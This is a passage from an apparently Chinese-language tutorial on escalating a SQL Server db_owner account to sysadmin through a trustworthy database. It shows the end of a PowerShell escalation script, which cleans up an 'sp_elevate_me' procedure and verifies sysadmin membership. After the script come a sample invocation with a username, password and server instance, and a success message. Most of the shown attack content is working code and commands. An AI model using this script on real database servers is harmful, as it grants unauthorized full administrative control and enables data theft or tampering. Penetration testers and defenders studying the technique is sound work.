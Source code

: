         # Remove stored procedure
            $conn.Open()
            $QueryElevate = "drop proc sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 

        # Verify that privilege escalation works
            If (-Not ($newuser -and $newPass)){
                $conn.Open()
                $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
                $results = $cmd.ExecuteReader() 
                $CheckforSysadmin.Load($results) 
                $conn.Close() 

                $CheckforSysadmin | Select-Object -First 1 IsSysAdmin | foreach {

                    $Checksysadmin2 = $_.IsSysAdmin
                    if ($Checksysadmin2 -ne 0){
                        write-host "[*] Success! - $UsertoElevate is now a sysadmin." -foreground "green" 
                    }else{
                        write-host "[*] Sorry, something failed, no sysadmin for you." -foreground "red"
                    }
                }    
             }       
        }else{
             write-host "[*] Sorry, $ConnectUser doesn't have the db_owner role in any of the sysadmin databases." -foreground "red" 
        }
        
        write-host "[*] All done." 
    }

首先我们先把sysadmin的权限取消掉，这里可以自行取消掉，但是要添加就会报错

![15.png](resource/Mssql受信用数据库提权/media/rId46.png)

    Invoke-SqlServer-Escalate-DbOwner -SqlUser MyAppUser01 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![16.png](resource/Mssql受信用数据库提权/media/rId47.png)

成功提权！！

参考链接
--------

> https://xz.aliyun.com/t/8188
